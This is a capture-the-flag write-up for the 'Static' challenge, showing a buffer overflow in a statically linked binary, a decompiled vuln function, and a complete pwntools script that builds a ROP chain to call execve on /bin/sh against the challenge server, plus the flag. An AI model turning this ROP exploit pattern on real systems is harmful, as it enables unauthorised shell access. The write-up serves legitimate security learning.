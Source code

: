 # Static

So I heard all about these binary exploitation attacks involving libraries and libc, and that's got me worried! I decided to statically compile all of my binaries to avoid those attack vectors. This means I don't need to worry about mitigations, right?

Right??

nc static.chal.cyberjousting.com 1350

## Challenge

Running the binary didn't give much insight as it seems to just read input, so lets do some checks and get into decompiling it.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


```c
void vuln(void)

{
  undefined local_12 [10];
  
  read(0,local_12,256);
  return;
}
```

So again we have a very simple vuln function that has a simple buffer overflow. Now the only real differences on this guy here is that the binary is statically linked and has NX enabled. There is a stack canary but not one that we need to worry about, as shown in the vuln function decompilation.

This was my first time exploiting a statically linked binary like this. I spent a few minutes scratching my head because I knew what statically linked meant but I didn't know how exactly to exploit it. My first thought was to look for `system` in the binary, but it wasnt there. After some googling I quickly came across [this technique](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/rop-syscall-execv). After a little bit of reading I came to an understanding that this was a pretty simple rop challenge that just used what the binary had to offer.

There were three things I needed to achieve: overflowing into the return address, getting `/bin/sh` into writable memory, and then setting up registers for a syscall.

Using `ROPgadget` I was able to pick out some gadgets that would fit my use. They weren't perfect but we made do.

```python
from pwn import *

elf = context.binary = ELF('./static')
#p = process('./static')
p = remote('static.chal.cyberjousting.com', 1350)

#Gadgets
pop_rdi = 0x0000000000401fe0
pop_rsi = 0x00000000004062d8
pop_rax_rdx_rbx = 0x000000000045e466
mov_rax_rdx_pop_rbx = 0x0000000000467180
syscall = 0x0000000000401194
writable_mem = 0x000000000049d000
ret = pop_rdi + 1

rop = p64(ret)

#Assigning rax writable memory address and rdx the string we want
rop += p64(pop_rax_rdx_rbx)
rop += p64(writable_mem) + b"/bin/sh\x00" + p64(0)

#Moving the string into writable memory for access
rop += p64(mov_rax_rdx_pop_rbx)
rop += p64(0)

#Rax to 0x3b, rdx to 0
rop += p64(pop_rax_rdx_rbx)
rop += p64(0x3b) + p64(0) + p64(0)

#Rdi to our string and rsi to 0
rop += p64(pop_rdi)
rop += p64(writable_mem)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(syscall)

payload = b'A'*10 + rop
p.sendline(payload)
p.interactive()
```

The solve script does exactly that. It gets us into the return address, writes `/bin/sh` into rdx, then movs [rdx] into rax, then fills the registers with our desired values in order to call `execve`. And after calling we have achieved a shell on the server. 

## Flag

`byuctf{glaD_you_c0uld_improvise_ROP_with_no_provided_gadgets!}`